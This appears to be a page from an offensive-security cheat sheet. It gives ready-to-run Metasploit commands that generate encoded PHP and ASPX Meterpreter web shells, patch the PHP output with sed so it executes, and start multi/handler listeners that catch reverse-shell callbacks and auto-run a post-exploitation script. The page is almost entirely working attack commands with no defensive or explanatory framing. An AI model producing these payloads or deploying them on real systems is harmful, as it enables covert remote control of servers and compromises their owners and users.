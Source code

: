
{% hint style="info" %}
Generate Web shell PHP
{% endhint %}

```bash
msfvenom -p php/meterpreter/reverse_tcp \
         LHOST=$NGHOST \
         PORT=$NGPORT \
         EnableStageEncoding=true \
         -f raw \
         -e php/base64 \
         -i 3 \
         -o /tmp/unk9vvn.php
sed -i "s#eval#<?php eval#g" /tmp/unk9vvn.php
sed -i "s#));#)); ?>#g" /tmp/unk9vvn.php
```

{% hint style="info" %}
Generate Web Shell ASP
{% endhint %}

```bash
msfvenom -p windows/meterpreter/reverse_winhttps \
         LHOST=$NGHOST \
         PORT=$NGPORT \
         EnableStageEncoding=true \
         -f asp > /tmp/unk9vvn.aspx
```

{% hint style="info" %}
Listening Metasploit PHP
{% endhint %}

```bash
msfconsole -qx "
    use multi/handler;
    set PAYLOAD php/meterpreter/reverse_tcp;
    set LHOST $NGHOST;
    set LPORT $NGPORT;
    set ReverseListenerBindAddress 127.0.0.1;
    set ReverseListenerBindPort 4444;
    set StageEncoder true;
    set AutoRunScript /tmp/post-exp.rc;
    run -j"
```

{% hint style="info" %}
Listening Metaploit ASP
{% endhint %}

```bash
msfconsole -qx "
    use multi/handler;
    set PAYLOAD windows/meterpreter/reverse_winhttps;
    set LHOST $NGHOST;
    set LPORT $NGPORT;
    set ReverseListenerBindAddress 127.0.0.1;
    set ReverseListenerBindPort 4444;
    set StageEncoder true;
    set AutoRunScript /tmp/post-exp.rc;
    run -j"
```
